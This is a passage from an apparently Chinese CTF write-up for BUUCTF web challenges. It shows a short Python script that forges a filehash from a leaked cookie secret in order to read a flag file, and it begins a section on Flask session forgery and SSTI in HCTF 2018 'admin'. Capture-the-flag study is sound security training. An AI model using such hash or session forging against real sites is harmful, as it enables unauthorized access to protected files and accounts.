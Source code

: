```python
from hashlib import md5
filename = "/hints.txt".encode("utf-8") 
cookie_secret = "cbeec37a-57fa-4c1e-b6ec-d2bfa8299e8e"
print(md5((cookie_secret+md5(filename).hexdigest()).encode("utf-8")).hexdigest())
//md5计算之前,字符串需要就行编码, hexdigest()将计算后的结果转为16进制的形式
//输出47a12639aff3f99db8fb73f4105ba530, 验证和访问hint.txt时的一致
//接下来把/hints.txt换成/fllllllllllllag就行了
```

<img src="/images/buuctf-web/image-20221016174710697-166704781973462.png" alt="image-20221016174710697" style="zoom:67%;" />

<br>

***

<br>

# [HCTF 2018]admin

## flask的session伪造

在注册登录后的修改密码界面查看源码,可以找到一个网址,打开后发现是网站的源码(flask)

<img src="/images/buuctf-web/image-20221016215058822.png" alt="image-20221016215058822" style="zoom:67%;" />

其中`index.html`这里网站是`flask`做的, 这里看源码像是还有`SSTI`
